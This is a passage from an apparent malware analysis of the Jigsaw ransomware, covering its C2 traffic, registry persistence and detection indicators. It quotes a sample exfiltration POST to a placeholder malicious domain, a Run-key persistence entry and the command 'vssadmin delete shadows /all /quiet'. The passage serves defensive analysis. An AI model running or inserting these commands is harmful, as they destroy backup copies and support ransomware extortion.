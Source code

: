 ```csharp
    
    UpdateRansomNote();
}
```

### Network Behavior

Jigsaw communicates with its C2 servers to:

- Verify successful infection
- Confirm ransom payment
- Potentially receive decryption keys
- Report system information


Typical HTTP requests observed:

```c
POST /payment_verification.php HTTP/1.1
Host: [malicious-domain].com
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

bitcoin_address=[address]&computer_name=[hostname]&encrypted_files=[count]
```

### Registry Modifications

Jigsaw makes several registry changes:

```c
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Jigsaw = "%AppData%\jigsaw.exe"
HKCU\Software\Jigsaw\Installed = "True"
HKCU\Software\Jigsaw\PaymentStatus = "Pending"
HKCU\Software\Jigsaw\EncryptionTime = "[timestamp]"
```

### Detection Methods

#### Static Analysis Indicators
- File properties showing .NET compilation
- Strings containing "jigsaw", "bitcoin", "delete", "encrypt"
- References to the System.Security.Cryptography namespace
- Presence of the Billy/Saw image resource
- Import of Timer-related functions
#### Dynamic Analysis Indicators
- Creation of files in %AppData% directory
- Registry modifications for persistence
- Mass file access operations
- Network communication to known C2 servers
- Deletion of Shadow Volume Copies via command:

```c
vssadmin delete shadows /all /quiet
```
### Decryption and Recovery

